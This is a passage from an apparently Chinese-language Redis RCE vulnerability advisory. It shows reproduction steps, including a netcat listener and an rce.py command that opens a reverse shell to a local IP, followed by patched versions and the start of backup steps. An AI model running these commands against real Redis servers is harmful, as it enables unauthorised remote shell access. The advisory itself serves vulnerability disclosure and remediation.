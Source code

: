1.获取 Redis 容器的 ID  
  
本例中为cc7079ae54fc，然后，从容器中复制 redis-server 到当前目录  
  
docker cp cc7079ae54fc:/usr/local/bin/redis-server .  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWmc4XPHFYtVjWgQ0Inn9RjoAvcg8TB96NEicNCArXtnPDxdW4papa3jQ/640?wx_fmt=png&from=appmsg "")  
  
2.执行rce利用代码  
  
python3 solver-f0b22e429fa6c984f39a409744ff954d3a45d843edd29428ef3a68085d696a7d.py  
  
即可获取redis本地的shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWR1cf4b7xBOU2L4bcGFAZ2hZ73RYXiaXDpfz4a9zIJVjib8B51eiaYPsMA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWLJVd3QJ5G09PGOqpyTc6F1Nh0mQGmPp933Qmox1AX4icTfdicuU7iaHXw/640?wx_fmt=png&from=appmsg "")  
  
3.探索真实环境的利用  
  
（1）在本地启动监听  
  
 nc -lvp 4444   
  
（2）执行脚本触发反向 shell   
  
python3 rce.py 172.17.0.2 -p 6379 --reverse-shell --local-ip 192.168.199.136 --local-port 4444  
  
通过测试代码可以进行漏洞检测和本地shell，但无法直接在公网进行实际测试。  
## 1.3修复建议  
### 1.3.1升级修复  
  
1.官方补丁  
  
Redis 8.0.3 及以上版本：  
https://github.com/redis/redis/releases/tag/8.0.3  
  
Redis 7.2.10 及以上版本：  
https://github.com/redis/redis/releases/tag/7.2.10  
  
Redis 7.4.5 及以上版本：  
https://github.com/redis/redis/releases/tag/7.4.5  
  
Redis 6.2.19 及以上版本：  
https://github.com/redis/redis/releases/tag/6.2.19  
  
2.升级步骤  
  
(1)备份  
- 单机环境备份  
# 方法1：RDB快照（推荐）  
  
redis-cli -h <host> -p <port> -a <password> bgsave  # 后台异步快照  
  
ls -lt /var/lib/redis/dump.rdb  # 确认RDB文件生成（默认路径，需参考redis.conf）  
  
